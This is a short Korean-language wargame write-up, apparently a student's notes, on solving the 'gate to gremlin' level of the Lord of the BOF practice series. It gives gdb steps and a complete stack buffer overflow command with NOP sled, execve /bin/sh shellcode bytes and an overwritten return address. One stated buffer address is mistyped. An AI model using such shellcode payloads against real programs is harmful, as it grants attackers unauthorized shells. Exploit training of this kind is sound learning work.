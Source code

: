#week2
##lob
###gate_to_gremlin
ls -al을 사용하였더니 gremlin파일과 gremlin.c파일을 발견가능하였다.  
gdb 파일로 gremlin을 분석하려고 했으나 권한 때문에 튕겼다.  
혹시나 하는 마음에 cp로 mygremlin 만들었더니 gate gate 권한이다.  
gdb로 연후 disas main을 하였다.(buffer 주소를 알기 위해서)  
main()에서 esp를 0x100(256)만큼 빼는 것을 알 수 있다  
b *main+62(strcpy() 호출후) 해준다.    
r $(python -c 'print("A"*264)')을 실행하고 x/20wx $esp 명령어를 통해    
esp내에 저장되어 있는 buffer의 주소를 확인해준다.    
여기서 x/20wx $esp명령어는 가리키는 메모리로부터 높은 주소 쪽으로    
4byte씩 20개를 출력한다.  
여기서 buffer의 주소는 0xffff928이었다.  
gdb를 벗어난 후에  ./gremlin $(python -c 'print("\x90"*100+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"\x90"*135+"\x28\xf9\xff\xbf")')와 같이 리틀인디안 방식으로  
명령어를 짜서 bash에 id 명령어를 친후 my-pass 명령어를 통해 password를 확인하여 gremlin으로 이동한다.  
이 문제 푸는데만 얼마나 걸렸는지 모르겠다. 풀다풀다 머리 쥐어뜯겨서 머머리 되는 게 빠를 거 같아  
구글에 뒹구는 풀이들을 참고하였다 ㅎㅎ  
